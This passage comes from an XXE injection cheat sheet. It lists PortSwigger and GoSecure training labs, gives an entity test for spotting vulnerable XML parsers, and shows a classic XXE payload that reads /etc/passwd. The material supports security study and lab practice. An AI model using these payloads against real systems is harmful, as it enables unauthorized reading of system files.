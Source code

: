 ## Labs

- [PortSwigger Labs for XXE](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)
  - [Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
  - [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)
  - [Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
  - [Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
  - [Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
  - [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)
  - [Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)
  - [Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
  - [Exploiting XXE to retrieve data by repurposing a local DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)
- [GoSecure workshop - Advanced XXE Exploitation](https://gosecure.github.io/xxe-workshop)

## Detect the vulnerability

Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName`. Entities are defined inside the `DOCTYPE` element.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.

## Exploiting XXE to retrieve files

### Classic XXE

We try to display the content of the file `/etc/passwd`

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
